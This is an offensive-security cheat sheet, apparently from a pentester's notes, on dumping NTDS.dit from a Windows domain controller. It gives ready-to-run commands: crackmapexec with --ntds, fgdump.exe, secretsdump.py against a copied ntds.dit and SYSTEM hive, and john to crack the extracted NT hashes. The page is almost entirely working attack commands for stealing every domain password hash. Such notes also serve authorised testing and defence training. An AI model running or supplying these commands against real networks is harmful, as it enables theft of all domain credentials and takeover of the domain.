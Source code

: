 # Dumping NTDS.dit

NTDS.dit contains all the info on the domain (hashes...), contained on the DC in **C:\Windows\NTDS\ntds.dit**

## cme
```bash
# dump ntds on domain controller
cme smb $dc_ip -u $admin -p $pass --ntds
```
## FGDump
{% embed url="https://www.softpedia.com/get/Security/Security-Related/fgdump.shtml" %} FGDump {% endembed %}

```powershell
.\fgdump.exe
```
## secretsdump 
```bash
# when you have the ntds.dit
./secretsdump.py -ntds /root/ntds.dit -system /root/SYSTEM LOCAL
```

## Cracking the hashes
```bash
john --format=NT hash --show
```
